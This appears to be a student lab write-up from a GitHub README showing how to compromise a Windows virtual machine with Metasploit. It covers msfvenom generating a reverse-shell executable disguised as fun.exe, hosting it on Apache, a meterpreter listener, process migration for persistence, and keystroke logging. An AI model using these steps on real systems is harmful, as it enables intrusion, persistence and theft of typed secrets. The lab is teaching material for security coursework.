 Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## PROGRAM:

Find the attackers ip address using ifconfig

![VirtualBox_kali-linux-2023 4-virtualbox-amd64_27_04_2024_14_23_38](https://github.com/Aishwarya-TM/EH-EX-6/assets/127846109/97641bd9-a1de-4183-a479-ab01f69198c5)

Create a malicious executable file fun.exe using msfvenom command

msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe

![VirtualBox_kali-linux-2023 4-virtualbox-amd64_27_04_2024_14_25_11](https://github.com/Aishwarya-TM/EH-EX-6/assets/127846109/2f7d21e8-ac0b-4529-b7b3-a45679f82ba3)

copy the fun.exe into the apache /var/www/html folder


Start apache server

sudo systemctl apache2 start

![VirtualBox_kali-linux-2023 4-virtualbox-amd64_27_04_2024_14_27_19](https://github.com/Aishwarya-TM/EH-EX-6/assets/127846109/33b8fa8c-e0fe-4284-8005-035ad5941078)

Check the status of apache2

Invoke msfconsole:

![VirtualBox_kali-linux-2023 4-virtualbox-amd64_29_04_2024_08_25_14](https://github.com/Karthik2821/Compromising-windows-using-Metasploit/assets/134921933/d25ee135-a6fb-41ea-a64a-a003e8a20cc3)


Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.


Starting a command and control Server

use multi/handler

set PAYLOAD windows/meterpreter/reverse_tcp

set LHOST 0.0.0.0

exploit

![VirtualBox_kali-linux-2023 4-virtualbox-amd64_27_04_2024_14_31_33](https://github.com/Aishwarya-TM/EH-EX-6/assets/127846109/e90489e5-9bcb-4f59-b2d7-a9f5cf05bef6)


On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine:

http://192.168.1.2/fun.exe

The file "fun.exe" downloads. 

Bypass any warning boxes, double-click the file, and allow it to run.

![VirtualBox_kali-linux-2023 4-virtualbox-amd64_27_04_2024_14_23_38](https://github.com/Karthik2821/Compromising-windows-using-Metasploit/assets/134921933/2a51ba39-f6ce-418b-b3d6-d9e5c0d296cd)

On kali give the command exploit

![VirtualBox_kali-linux-2023 4-virtualbox-amd64_27_04_2024_14_31_33](https://github.com/Aishwarya-TM/EH-EX-6/assets/127846109/60ce3e07-c61d-43a0-a87e-824ef27994d0)

To see a list of processes, at the meterpreter > prompt, execute this command:

ps  ⇒ can see the fun.exe process running with pid 1156

![VirtualBox_kali-linux-2023 4-virtualbox-amd64_29_04_2024_08_35_53](https://github.com/Karthik2821/Compromising-windows-using-Metasploit/assets/134921933/f79dc2bd-6a59-47ab-b5a7-66f8f9b3fd70)


The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost.

To become more persistent, we'll migrate to a process that will last longer.

Let's migrate to the winlogon process.

At the meterpreter > prompt, execute this command:

migrate -N explorer.exe

at meterpreter > prompt, execute this command:

netstat

A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below.
Notice the "PID/Program name" value for this connection, which is redacted 

![VirtualBox_kali-linux-2023 4-virtualbox-amd64_29_04_2024_08_37_07](https://github.com/Aishwarya-TM/EH-EX-6/assets/127846109/22cd7317-cb46-4df4-94b0-62ba262b3c26)

Post Exploitation

The target is now owned. Following are meterpreter commands for key capturing in the target machine

keyscan_start	Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.

![VirtualBox_kali-linux-2023 4-virtualbox-amd64_29_04_2024_08_37_53](https://github.com/Aishwarya-TM/EH-EX-6/assets/127846109/c2356dfb-4329-4f6b-b35c-45b526e5e643)

keyscan_dump	Shows the keystrokes captured so far

![VirtualBox_kali-linux-2023 4-virtualbox-amd64_29_04_2024_08_41_09](https://github.com/Aishwarya-TM/EH-EX-6/assets/127846109/6a746190-c48c-49ea-8e44-a1391edca22b)


## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.



